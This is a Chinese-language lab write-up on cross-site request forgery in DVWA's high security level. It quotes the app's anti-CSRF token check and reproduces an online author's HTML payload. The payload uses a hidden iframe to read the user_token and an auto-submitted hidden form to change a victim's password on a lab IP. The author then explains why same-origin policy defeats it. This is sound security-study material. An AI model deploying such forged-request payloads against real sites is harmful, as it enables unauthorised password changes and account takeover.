


[TOC]

# high

## 正常用户操作

用burpsuite拦截正常用户在高级别安全模式下修改密码时的报文，发现请求行多了token



阅读源码`DVWA/vulnerabilities/csrf/source/hign.php`,高安全级别的源码中引入了token来防止CSRF攻击

```php
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

所以在高安全级别下进行csrf攻击需要先获取页面的token。


## 网上解析

作者构造了一个攻击代码

```html
<script type="text/javascript">
	function attack(){
document.getElementsByName('user_token'[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
	document.getElementById("transfer").submit(); 
}
</script>

<iframe src="http://192.168.153.130/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>
<body onload="attack()">
  	<form method="GET" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/csrf">
	<input type="hidden" name="password_new" value="password">
    <input type="hidden" name="password_conf" value="password">
   <input type="hidden" name="user_token" value="">
  <input type="hidden" name="Change" value="Change">
    </form>
</body>


```

当受害者访问这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的token，并向服务器发送改密请求，以完成CSRF攻击。

但是现在的浏览器不允许跨域请求。所以这个攻击实际上是不能实现的。



### 跨域请求

被攻击的页面域名A与攻击者的页面域名B的域名不同，域名B下的所有页面都不允许主动获取域名A下的页面内容，除非域名A下的页面主动发送信息给域名B的页面，所以攻击脚本是不可能取到改密界面中的user_token。

